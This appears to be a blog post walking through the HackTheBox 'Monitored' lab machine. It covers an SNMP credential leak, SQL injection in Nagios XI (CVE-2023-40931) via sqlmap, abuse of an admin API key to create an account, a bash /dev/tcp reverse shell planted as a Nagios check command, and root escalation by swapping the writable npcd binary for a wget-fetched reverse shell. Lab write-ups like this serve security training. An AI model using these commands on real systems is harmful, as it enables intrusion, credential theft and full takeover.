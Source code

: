 ```yaml
---
title: "CTF Walkthrough: Monitored (HtB, Linux, Medium)"
excerpt: "A detailed walkthrough of \"Monitored\" machine on HackTheBox."
header:
  teaser: /docs/assets/images/teasers/ctf/monitored.png
  og_image: /docs/assets/images/teasers/ctf/monitored.png
author_profile: false
share: true
tags:
  - hack the box
  - linux
  - difficulty-medium
  - nagios xi
  - sqli
categories:
  - ctf
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Monitored" machine on HackTheBox platform that is based on Linux operating system and categorized as "Medium"
by difficulty. The machine has Nagios XI software running on it and involves utilizing a vulnerability chain (including SQL Injection) to establish a foothold on the system. Privilege escalation requires abusing sudo permissions on system scripts.

## Reconnaissance

The reconnaissance part is **extremely** important on this machine and unforgiving to mistakes.
The default **nmap** scan reveals the following services:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

The services of our interest here are http, https and ldap. Attempting to dump credentials from LDAP using anonymous login leads to no result:

```bash
nmap -n -sV --script "ldap*" <IP> -p 389
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/ldapdump.png" alt="">
  <figcaption></figcaption>
</figure>

Here comes the important part, missing which can cause the challenger to enter a rabbit hole. It's necessary to run a UDP scan as there's **SNMP** service running on port 161 UDP. From that service, it's possible to dump SNMP process list. One of the processes will contain **credentials** required to authenticate in Nagios.

The following nmap scan reveals the credentials:

```bash
nmap -sU -sC -sV -T4 <IP> #-sU - UDP Scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/snmpcreds.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://monitored.htb*. You will be presented with the following login page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagiosinitialpage.png" alt="">
  <figcaption></figcaption>
</figure>

It is not possible to login with the discovered credentials there, however, they can be used at Nagios system dashboard located at *https://monitored.htb/nagios/*. Navigate there and enter the credentials in the pop-up window. Successful authentication should present the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagioscorelogin.png" alt="">
  <figcaption></figcaption>
</figure>

### CVE-2023-40931

We have achieved authenticated access to Nagios. The time has come for an exhausting vulnerability research. Eventually, it will lead the challenger to this [article](https://outpost24.com/blog/nagios-xi-vulnerabilities/) on Outpost24. It reveals information about CVE-2023-40931 - "SQL Injection in Banner acknowledging endpoint". When a user acknowledges a banner, a POST request is sent to */nagiosxi/admin/banner_message-ajaxhelper.php* with the POST data consisting of the intended action and message ID – *action=acknowledge banner message&id=3*.

The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the *xi_session* and *xi_users* table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.

## Weaponization / Exploitation

Firstly, it is necessary to request authentication token for our current user. According to this [thread](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum, it can be done by issuing the following command:

```bash
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=500'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/authtoken.png" alt="">
  <figcaption></figcaption>
</figure>

Now that the tokes has been received, let's attempt to dump *xi_users* table with **sqlmap**:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<YOUR TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users --dump
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/adminapi.png" alt="">
  <figcaption>sqlmap dump reveals admin API token</figcaption>
</figure>

*xi_users* table cotains Nagios Administrator account API token that can be used to query Nagios API to create a new user with administrative privileges as described on the following [page](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum. The command do to so is the following:

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<ADMIN API KEY>&pretty=1" -d "username=<DESIRED USERNAME>&password=<DESIRED PASSWORD>&name=adminlol&email=adminlol@localhost&auth_level=admin"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/createnewadmin.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://nagios.monitored.htb/nagiosxi/* and login with your newly created account. After accepting license agreement and password change form, the challenger is presented with Nagios administrative dashboard.

## Foothold

Navigate to Configure => Core Config Manager => Commands => Add New

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/coreconfig.png" alt="">
  <figcaption></figcaption>
</figure>

Create a reverse shell command with the following parameters:
* Command type: check
* Check "Active" box
* Enter the reverse shell command in the "Command view" field and click save.
```bash
bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/shellcommand.png" alt="">
  <figcaption></figcaption>
</figure>


Start a Netcat reverse listener:

```bash
nc -lvnp <PORT SPECIFIED IN REVERSE SHELL COMMAND>
```

In Nagios, navigate to Monitoring => Hosts => localhost. In the Host Managment menu, select the created reverse shell command and click "Run Check Command" as shown on the screenshot:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/runshellcommand.png" alt="">
  <figcaption></figcaption>
</figure>

A reverse shell should be sent to Netcat listener, providing you with a foothold into the system.

### User flag

Find nagios user flag in its home directory.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/userflag.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Check what the current user is able to run with administrative privileges:

```bash
sudo -l
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/sudoloutput.png" alt="">
  <figcaption></figcaption>
</figure>

Among the scripts that appear there is **manage_services.sh**. Display its contents:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/scriptcontents.png" alt="">
  <figcaption></figcaption>
</figure>

It is evident that by executing **manage_services.sh** the user is able to control several services that include **npcd** service. Display the contents of **npcd** service to analyze it:

```bash
systemctl cat npcd
```
The service indicates location of its binary file available by the following path */usr/local/nagios/bin/npcd*. Check permissions on the file:
```bash
ls -l /usr/local/nagios/bin/npcd
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/catnpcdservice.png" alt="">
  <figcaption></figcaption>
</figure>

The current user has write permissions on the **npcd** binary. It is possible to replace contents of the file and execute it with system privileges. On your local machine, create a file called **npcd** with the following contents:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP ADDR>/<PORT> 0>&1
```
Open a Netcat listener on the port of your choice. Then, start a Python HTTP server to host your npcd file. On the target system, download it, stop **npcd** service and replace the original **npcd** file located in **/usr/local/nagios/bin/** with the created one:

```bash
# On the Attacker machine:
nc -lnvp <PORT>
python3 -m http.server <PORT> # start HTTP server in the directory where npcd file is located

# On the target machine:
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd # Stop npcd service to be able to replace the binary
wget http://<IP ADDR>:<PORT>/npcd # Download npcd file from HTTP server
mv npcd /usr/local/nagios/bin/  # Move the downloaded file into target directory, replacing the original file
chmod +x /usr/local/nagios/bin/npcd # Assign executable permissions to the file
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd # Start npcd service to receive root shell
```
### Root flag

After transferring **npcd** file containing reverse shell command and replacing the original file with it, start **npcd** service again and, if instructions were completed correctly, the Attacker machine will receive a callback with root privileges. Navigate to */root* directory to get the root flag.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/root.png" alt="">
  <figcaption></figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
